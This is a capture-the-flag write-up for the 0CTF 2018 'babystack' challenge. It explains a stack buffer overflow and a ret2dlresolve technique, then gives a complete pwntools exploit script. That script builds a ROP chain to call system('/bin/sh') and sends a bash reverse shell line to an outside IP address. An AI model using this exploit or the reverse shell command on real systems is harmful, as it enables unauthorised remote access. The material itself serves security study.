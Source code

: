 # 0CTF 2018 Quals: Baby Stack

> Challenge link: [babystack](http://dl.0ops.net/2018/babystack.tar.gz)
>
> Category: Pwn
>
> Writeup: []()
>

Info leak is no longer required to exploit a stack overflow in 2018.

Enjoy the babystack

202.120.7.202:6666

## Protection

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Analysis

- ```pow.py```

It is a wrapper of babystack.
Add proof-of-work and limiting the length of input is ```0x100```; also pipe stdout and stderr to ```/dev/null```.

- ```babystack```

Just alarm and read buffer.

```c
ssize_t sub_804843B()
{
  char buf; // [esp+0h] [ebp-28h]

  return read(0, &buf, 0x40u);
}

int __cdecl main()
{
  alarm(0xAu);
  sub_804843B();
  return 0;
}
```

## Vulnerability

No canary found and we can read a lot of characters to buf.
- **Buffer overflow** in ```read(0, &buf, 0x40u)```

## Idea

- no output function => cannot do information leak
- no libc provided => guessing function offset maybe hard
- NX enabled => read shell code and jump to execute cannot work

According to the description, "info leak is no longer required", it means that we can use ret2dlresolve skill to pwn it!

Try to solve by the following steps:

1. use rop to read fake data structures and ret2main
2. use ret2dlresolve to call ```system("/bin/sh")```

Fake data structures:

- ```Elf32_Rel```

```
/* Relocation table entry without addend (in section of type SHT_REL).  */
typedef struct
{
  Elf32_Addr        r_offset;                /* Address */
  Elf32_Word        r_info;                        /* Relocation type and symbol index */
} Elf32_Rel;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#633

- ```Elf32_Sym```

```
/* Symbol table entry.  */
typedef struct
{
  Elf32_Word        st_name;                /* Symbol name (string tbl index) */
  Elf32_Addr        st_value;                /* Symbol value */
  Elf32_Word        st_size;                /* Symbol size */
  unsigned char        st_info;                /* Symbol type and binding */
  unsigned char        st_other;                /* Symbol visibility */
  Elf32_Section        st_shndx;                /* Section index */
} Elf32_Sym;
```

https://code.woboq.org/userspace/glibc/elf/elf.h.html#518

Working flow about ```_dl_runtime_resolve```

```
     _dl_runtime_resolve(link_map, reloc_arg)
                                       +
          +-----------+                |
          | Elf32_Rel | <--------------+
          +-----------+
     +--+ | r_offset  |        +-----------+
     |    |  r_info   | +----> | Elf32_Sym |
     |    +-----------+        +-----------+      +----------+
     |      .rel.plt           |  st_name  | +--> | system\0 |
     |                         |           |      +----------+
     v                         +-----------+        .dynstr
+----+-----+                      .dynsym
| <system> |
+----------+
  .got.plt
```

- fake ```Elf32_Rel```
    - ```r_offset``` writable (after resolving symbol write the actual address of function)
    - ```r_info``` high 24 bits
        - ```(r_info >> 8) * 16``` point to fake ```Elf32_Sym``` (16 is size of ```Elf32_Sym```)
    - ```r_info``` low 8 bits
        - must be ```0x07``` (R_386_JMP_SLOT)

- fake ```Elf32_Sym```
    - ```.dynstr + st_name``` point to ```system``` string

Read the fake ```Elf32_Rel```、```Elf32_Sym``` structures and ret2main to call ```_dl_runtime_resolve```.

- use ```plt0```

```
Disassembly of section .plt:

080482f0 <read@plt-0x10>:                                             // plt0
 80482f0:       ff 35 04 a0 04 08       push   DWORD PTR ds:0x804a004 // push link_map
 80482f6:       ff 25 08 a0 04 08       jmp    DWORD PTR ds:0x804a008 // jmp _dl_runtime_resolve
```

We can calculate the ```reloc_arg``` to make ```.rel.plt + reloc_arg``` point to our fake structures and jump to ```plt0```, let it resolve symbol to ```system```.

After resolving the symbol, ```_dl_runtime_resolve``` will call the function.

## Exploitation

```python
#!/usr/bin/env python

from pwn import *
from hashlib import sha256
import time

# r = process('./babystack')
r = remote('202.120.7.202', 6666)

def verify():
    data = r.recvline()[:-1]
    for i in xrange(2 ** 32):
        if sha256(data + p32(i)).digest().startswith('\0\0\0'):
            break
    r.send(p32(i))
    log.info('POW is over')
    sleep(0.5)

def send(data, length):
    time.sleep(0.1)
    r.send(data.ljust(length))

plt0 = 0x80482f0
relplt = 0x80482b0
dynsym = 0x80481cc
dynstr = 0x804822c

main = 0x8048457
read_plt = 0x8048300

buf = 0x804a500

rop = flat(
        # _dl_runtime_resolve call and reloc_arg
        plt0, buf - relplt, # will resolve system
        0xdeadbeef, # return address
        buf + 36 # parameter "/bin/sh"
        )

data = flat(
        # Elf32_Rel
        buf, 0x7 | ((buf + 12 - dynsym) / 16) << 8, 0xdeadbeef, # 0xdeadbeef is padding
        # Elf32_Sym
        buf + 28 - dynstr, 0, 0, 0x12,
        'system\x00\x00',
        '/bin/sh\x00'
        )

verify()

# read data to buf
send('a' * 44 + flat(read_plt, main, 0, buf, 44), 0x40)
send(data, 44)

# use ret2dlresolve to call system("/bin/sh")
send('a' * 44 + rop, 0x40)

# make a reverse shell
send('bash -c "bash -i &>/dev/tcp/35.201.141.84/80 0>&1"', 0x100)

r.interactive()
```

```flag{return_to_dlresolve_for_warming_up}```

## Note

https://www.slideshare.net/AngelBoy1/re2dlresolve
https://www.youtube.com/watch?v=wsIvqd9YqTI